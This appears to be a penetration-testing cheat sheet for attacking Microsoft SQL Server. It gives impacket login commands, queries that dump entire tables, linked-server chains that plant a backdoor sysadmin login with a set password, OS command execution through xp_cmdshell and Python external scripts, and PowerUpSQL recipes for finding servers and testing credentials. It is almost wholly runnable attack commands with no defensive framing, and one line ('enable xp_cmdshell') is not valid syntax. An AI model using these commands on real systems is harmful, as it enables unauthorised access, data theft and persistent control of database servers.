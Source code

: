 # MSSQL Database Authentication and Dumping

### Commands:

#### 1) Kerberos auth

    impacket-mssqlclient -k DOMAIN.LOCAL -no-pass

#### 2) Windows Authentication (Domain Credentials)

    impacket-mssqlclient -windows-auth DOMAIN\\USERNAME@TARGET_IP

#### 3) Local Authentication

    impacket-mssqlclient USERNAME@TARGET_IP 

### DATABASE COMMANDS

#### 1) Enumerate all databases within MSSQL instance

    SELECT name FROM sys.databases; 

#### 2) Enumerate tables of the target database
    
    SELECT TABLE_NAME,TABLE_SCHEMA FROM targetdb.INFORMATION_SCHEMA.TABLES; 

#### 3) Dump all the contents of the target table of the target database
    
    SELECT * FROM targetdb.dbo.targettable 

### GIVE ACCESS TO A DATABASE WITH SYSADMIN PRIVILEGES

#### 1) Upon login, check if the user is a sysadmin

    SELECT IS_SRVROLEMEMBER('sysadmin');

If 1, the user is sysadmin.

#### 2) Give user full access to target DB

    use DATABASE;
    create user [DOMAIN\user] for login [DOMAIN\user];
    exec sp_addrolemember 'db_owner', 'DOMAIN\user';

#### 3) Dump tables from target DB

    select name from sys.tables;

### LINKED DATABASES ABUSE

#### 1) Check if our user has admin privileges to run commands with xp_cmdshell

    select name,sysadmin from syslogins; 

OR 

    SELECT IS_SRVROLEMEMBER('sysadmin');

If it returns 1, the user has admin privileges.

#### 2) Check if there are any linked servers on the current database. Isremote determines if it is linked or remote. If it is 1, it means it is linked, else is remote.

    select srvname, isremote from sysservers; 

#### 3) Check in whose context we are able to query the linked server

    EXEC ('select current_user') at [NAME\REMOTE_DATABASE]; 

#### 4) Check for sysadmin sa privileges

    EXEC ('select name,sysadmin from syslogins') at [NAME\REMOTE DATABASE]; 

#### 5) Check the remote DB server if it has more links

    EXEC ('select srvname,isremote from sysservers') at [NAME\REMOTE_DATABASE]; 

#### 6) Nested queries. This use case means that we have encountered a circular link between database servers!

    EXEC ('EXEC (''select susername()'') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE]; 

#### 7) If we are sa, then we add a user with sysadmin privileges for us

    EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

    EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [NAME\DATABASE]') at [NAME\REMOTE DATABASE];

### COMMAND EXECUTION WITH XP_CMDSHELL

#### 1) Enable command execution

    enable xp_cmdshell 
 
    xp_cmdshell whoami

#### 2) Enable execution of external scripts written in R or python

    EXECUTE sp_configure 'external scripts enabled', 1; 

#### 3) Run commands using Python

    EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("COMMAND");'; 

# MSSQL Tool: PowerUpSQL

Link: https://github.com/NetSPI/PowerUpSQL

Import Module

    Import-Module .\PowerupSQL.psd1

### Enumerating from the network without domain session

#### 1) Get local MSSQL instance (if any)

    Get-SQLInstanceLocal
    Get-SQLInstanceLocal | Get-SQLServerInfo

#### 2) If you don't have an AD account, you can try to find MSSQL scanning via UDP

First, you will need a list of hosts to scan

    Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them

The discovered MSSQL servers must be on the file: C:\temp\instances.txt

    Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username USERNAME -Password PASSWORD

### Enumerating from inside the domain

#### 1)  Get local MSSQL instance (if any)

    Get-SQLInstanceLocal
    Get-SQLInstanceLocal | Get-SQLServerInfo

#### 2) #Get info about valid MSQL instances running in domain

This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)

    Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose

#### 3) Test connections with each one

    Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#### 4) Try to connect and obtain info from each MSSQL server (also useful to check connectivity)

    Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

##### 5)  Get DBs, test connections, and get info in oneliner

    Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
